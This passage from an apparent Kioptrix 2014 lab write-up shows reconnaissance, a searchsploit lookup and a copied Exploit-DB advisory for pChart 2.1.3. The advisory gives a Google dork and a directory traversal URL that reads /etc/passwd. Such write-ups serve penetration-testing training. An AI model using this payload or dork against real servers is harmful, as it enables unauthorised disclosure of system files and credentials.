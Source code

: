 ```bash
Nmap done: 1 IP address (1 host up) scanned in 163.63 seconds
```

I looked around for exploits on the versions running on the target machine, but didn't find anything particularly interesting. I decided to visit the website the target was hosting on port 80. I found the following:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix2014_source.png)

Visiting the URL referred to in the page source, I found the following:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix2014_pchart.png)

I looked around for exploits based on this particular version of `pChart` (2.1.3) and found a directory traversal vulnerability:

```bash
kali@kali:~$ searchsploit pchart 2.1.3
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                        |  Path
                                                                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
pChart 2.1.3 - Multiple Vulnerabilities                                                                                               | exploits/php/webapps/31173.txt
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

kali@kali:~$ cp /usr/share/exploitdb/exploits/php/webapps/31173.txt .
kali@kali:~$ cat 31173.txt
# Exploit Title: pChart 2.1.3 Directory Traversal and Reflected XSS
# Date: 2014-01-24
# Exploit Author: Balazs Makany
# Vendor Homepage: www.pchart.net
# Software Link: www.pchart.net/download
# Google Dork: intitle:"pChart 2.x - examples" intext:"2.1.3"
# Version: 2.1.3
# Tested on: N/A (Web Application. Tested on FreeBSD and Apache)
# CVE : N/A

[0] Summary:
PHP library pChart 2.1.3 (and possibly previous versions) by default
contains an examples folder, where the application is vulnerable to
Directory Traversal and Cross-Site Scripting (XSS).
It is plausible that custom built production code contains similar
problems if the usage of the library was copied from the examples.
The exploit author engaged the vendor before publicly disclosing the
vulnerability and consequently the vendor released an official fix
before the vulnerability was published.


[1] Directory Traversal:                                                                                                                                                       
hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd                                                                                             
The traversal is executed with the web servers privilege and leads to                                                                                                         
sensitive file disclosure (passwd, siteconf.inc.php or similar),                                                                                                               
access to source codes, hardcoded passwords or other high impact                                                                                                               
```
